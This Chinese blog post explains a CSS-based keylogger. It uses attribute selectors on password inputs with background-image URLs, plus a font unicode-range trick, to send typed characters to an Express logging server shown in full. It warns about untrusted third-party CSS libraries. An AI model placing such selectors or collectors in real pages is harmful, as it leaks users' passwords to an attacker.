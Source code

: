 ```yaml
---
layout: post
title:  "CSS攻击：记录用户密码"
date:   2018-03-01
categories: CSS
author: 张翔
location: ShangHai, China
cover: "https://i.loli.net/2018/08/02/5b6327aa78740.jpg"
description: CSS也能成为攻击者的使用工具，用来记录用户的输入数据。
---
```

---
简单的CSS代码，甚至不符合图灵完备的语言，但是也能成为一些攻击者的工具，下面简单介绍一下如何使用CSS去记录用户的密码。但是这些CSS脚本会出现在第三方CSS库中，所以使用第三方CSS库也需要谨慎，确保代码安全。
直接上代码解析：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
input[type="password"][value$="1"] { 
    background-image: url("http://localhost:3000/1"); 
}
input[type="password"][value$="2"] { 
    background-image: url("http://localhost:3000/2"); 
}
```

以上是**部分代码**,我们来解析一下CSS代码
`input[type="password"]`是css选择器，作用是选择密码输入框，`[value$="0"]`表示匹配输入的值是以0结尾的。
所以：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
```
上面代码的意思就是如果你在密码框中输入0，就去请求`http://localhost:3000/0`接口，但是浏览器**默认情况下**是不会将用户输入的值存储在**value属性**中，但是有的框架会同步这些值，例如**React**。
所以只要使用了如下图的脚本就能去存储用户的输入数据信息。


我们再来看一下服务器端的代码
```javaScript
const express = require("express");
const app = express();

app.get("/:key", (req, res) => {
process.stdout.write(req.params.key);
return res.sendStatus(400);
});

app.listen(3000, () => console.log("启动，监听3000端口"));
```

使用**express**创建服务器，监听**3000端口**，只要请求`http://localhost:3000/:key`，就能输出key的值，**就能在服务器上记录输入的值**。
所以只要在每输入一个值都匹配，然后通过 `background-image` 去请求一个已经准备好的**接口**，就能记录用户的输入。

类似的方法记录用户的内容的CSS代码
```CSS
@font-face {
  font-family: blah;
  src: url('http://localhost:3000/a') format('woff');
  unicode-range: U+85;
}
html {
  font-family: blah, sans-serif;
}
```
你使用的的css的简单的**字体库**，只要你的页面中包含a，就会去请求`http://localhost:3000/a`，这样就能知道你的页面中包含有a字符。